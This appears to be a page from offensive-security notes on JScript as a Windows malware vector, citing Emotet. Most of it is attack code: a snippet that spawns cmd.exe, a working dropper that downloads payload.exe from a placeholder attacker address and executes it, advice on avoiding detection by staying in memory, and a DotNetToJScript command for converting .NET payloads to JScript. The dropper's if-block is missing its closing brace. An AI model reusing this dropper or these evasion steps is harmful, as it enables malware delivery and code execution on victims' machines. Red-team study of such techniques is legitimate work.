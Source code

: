 # JScript

JScript is used by popular malware like Emotet. The .js extension is by default associated with Windows Scripting Host - so double clicking such a file will execute it.

### Simple Shell Command

```javascript
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

### Simple Dropper

```javascript
var url = "http://<ip>/payload.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200){
    var Stream = WScript.CreateObject('ADODB.Stream');
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;
    Stream.SaveToFile("payload.exe", 2);
    Stream.Close();
var r = new ActiveXObject("WScript.Shell").Run("payload.exe");
```

This dropper will create payload.exe on disk - so its not unlikely it will get caught. In-Memory payloads required interaction with C\#.



### Convert C\# to JScript

{% embed url="https://github.com/tyranid/DotNetToJScript" %}

Open the Project in VS, modify "ExampleAssembly" to your needs, then run:

```text
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```

